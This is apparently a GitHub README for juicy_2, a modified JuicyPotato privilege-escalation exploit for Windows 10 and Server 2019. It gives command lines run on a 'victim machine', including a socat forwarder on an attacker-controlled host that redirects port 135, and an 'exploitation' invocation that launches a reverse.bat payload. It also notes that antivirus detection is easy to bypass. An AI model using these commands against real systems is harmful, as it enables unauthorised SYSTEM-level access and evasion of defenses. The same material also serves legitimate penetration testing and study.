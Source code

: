 # juicy_2
juicypotato for win10 > 1803 &amp; win server 2019<br>
Disclaimer:
This is just a quick & dirty modification of our JuicyPotato in order to test valid clisd an to impersonate them for newer windows 10 and windows server 2019 platforms.
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<br>
Mandatory requisite is to have the possibility to reidirect traffic for port 135 on a forwarder machine under you control.
Feel free to improve the code, I was too lazy for this kind of stuff. 
<br><br>
For testing CLSID:<br>
juicy_2 -z -x <ip of socat listener> -l <fake oxid resolver port> -n <local RPC server port> -c <CLSID> to test:<br>
Example:
  on victim machine:
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
For exploitation:
  on victim machine:
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995
  
